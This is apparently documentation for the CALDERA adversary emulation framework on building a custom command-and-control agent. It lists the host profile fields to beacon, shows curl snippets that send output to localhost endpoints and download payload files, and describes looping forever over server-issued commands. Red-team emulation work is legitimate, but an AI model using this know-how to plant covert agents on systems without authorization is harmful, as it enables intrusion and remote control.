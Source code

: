 How to Build Agents
================

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, 54ndc47, is a representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. 

You can extend 54ndc47 by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Understanding contacts

Agents are processes which are deployed on compromised hosts and connect with the C2 server periodically for instructions.
An agent connects to the server through a *contact*, which is a specific connection point on the server.

There are two types of contacts available:

1) Active. The server actively polls a location for beacons.
2) Passive. The server waits for a beacon to come in before acting.

Each contact is defined in an independent Python module and is registered with the contact_svc when the server starts.

There are currently several built-in contacts available: http (passive), tcp (active) and udp (passive). 

## Building an agent: HTTP contact

Start by getting a feel for the HTTP endpoints, which are located in the contacts/contact_http.py module.
```
POST  /beacon 
POST  /result
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

> If you don't include a platform and executors then the server will never provide instructions to the agent, as it 
won't know which ones are valid to send. 

| Key           | Value  | Notes |
| :------------- |:------------- |:-------------|  
| server        | The location (IP or FQDN) of the C2 server    | |
| platform      | The operating system | The platform is evaluated against the platform field of each ability. Currently you can use windows, darwin or linux |
| host          | The hostname of the machine | |
| username      | The username running the agent | |
| architecture  | The architecture of the host. | |
| executors     | A list of executors allowed on the host | Executors are evaluated against the executor block of each ability. Currently, you can use sh, cmd, psh and pwsh |
| privilege     | The privilege level of the agent process, either User or Elevated | Privilege is evaluated against the optional privilege block of each ability file |
| pid           | The process identifier of the agent | |
| location      | The location of the agent on disk | |
| exe_name      | The name of the agent binary file | |

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of minutes (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[...]"}
```

> The paw property returned back from the server represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Now it's time to execute the instructions. 

Looking at the previous response, you can see each instruction contains:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the response to the /result endpoint. You should pause after running each instruction, using the sleep time provided inside the instruction.
```
data=$(echo '{"id":$id, "output":$output, "status": $status, "pid":$pid}' | base64)
curl -s -X POST -d $data localhost:8888/result
sleep $instruction_sleep
```

The POST details are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part #4

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of minutes to allow a dead beacon before killing the agent. 
